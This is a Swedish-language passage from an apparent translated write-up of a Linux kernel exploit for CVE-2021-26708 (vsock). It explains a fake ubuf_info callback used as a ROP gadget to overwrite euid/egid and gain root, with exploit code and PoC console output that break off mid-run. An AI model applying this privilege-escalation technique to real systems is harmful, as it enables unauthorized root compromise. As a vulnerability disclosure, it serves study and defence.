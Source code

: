 skb_shared_info finns i injektionsdata, exakt vid offset SKB_SHINFO_OFFSET, vilket är 3776 byte. Skb_shared_info.destructor_arg-pekaren lagrar adressen till struct ubuf_info. Eftersom kärnadressen till den attackerade sk_buffen är känd kan en falsk ubuf_info skapas på MY_UINFO_OFFSET i nätverksbufferten. Följande är layouten för en giltig nyttolast:

![](T0185ccbf9f025c74da.png "T0185ccbf9f025c74da.png")

Låt oss prata om återuppringaren för destructor_arg:

     /*
         * A single ROP gadget for arbitrary write:
         *   mov rdx, qword ptr [rdi + 8] ; mov qword ptr [rdx + rcx*8], rsi ; ret
         * Here rdi stores uinfo_p address, rcx is 0, rsi is 1
         */
        uinfo_p->callback = ARBITRARY_WRITE_GADGET + kaslr_offset;
        uinfo_p->desc = owner_cred + CRED_EUID_EGID_OFFSET; /* value for "qword ptr [rdi + 8]" */
        uinfo_p->desc = uinfo_p->desc - 1; /* rsi value 1 should not get into euid */

Eftersom jag inte kunde hitta en gadget som kan tillgodose mina behov i vmlinuz-5.10.11-200.fc33.x86_64, undersökte jag och konstruerade den själv.

Återuppringningsfunktionspekaren lagrar adressen till en ROP-gadget, RDI lagrar den första parametern för återuppringningsfunktionen, vilket är adressen till själva ubuf_info och RDI + 8 pekar på ubuf_info.desc. gadget flyttar ubuf_info.desc till RDX. Nu innehåller RDX ett effektivt användar-ID och grupp-ID-adress minus en byte. Denna byte är väldigt viktig: när gadgeten skriver meddelande 1 från RSI till det minne som RDX pekar på kommer den effektiva uid och gid att skrivas över med noll. Upprepa samma process tills behörigheterna uppgraderas till root. Utflödet för hela processen är som följer:

    [a13x@localhost ~]$ ./vsock_pwn

    =================================================
    ==== CVE-2021-26708 PoC exploit by a13xp0p0v ====
    =================================================

    [+] begin as: uid=1000, euid=1000
    [+] we have 2 CPUs for racing
    [+] getting ready...
    [+] remove old files for ftok()
    [+] spray_data at 0x7f0d9111d000
    [+] userfaultfd #1 is configured: start 0x7f0d91121000, len 0x1000
    [+] fault_handler for uffd 38 is ready

    [+] stage I: collect good msg_msg locations
    [+] go racing, show wins:
        save msg_msg ffff9125c25a4d00 in msq 11 in slot 0
        save msg_msg ffff9125c25a4640 in msq 12 in slot 1
        save msg_msg ffff9125c25a4780 in msq 22 in slot 2
        save msg_msg ffff9125c3668a40 in msq 78 in slot 3

    [+] stage II: arbitrary free msg_msg using corrupted msg_msg
        kaddr for arb free: ffff9125c25a4d00
        kaddr for arb read: ffff9125c2035300
    [+] adapt the msg_msg spraying payload:
        msg_ptr 0x7f0d91120fd8
        m_type 1337 at 0x7f0d91120fe8
        m_ts 6096 at 0x7f0d91120ff0
        msgseg next 0xffff9125c2035300 at 0x7f0d91120ff8
    [+] go racing, show wins:

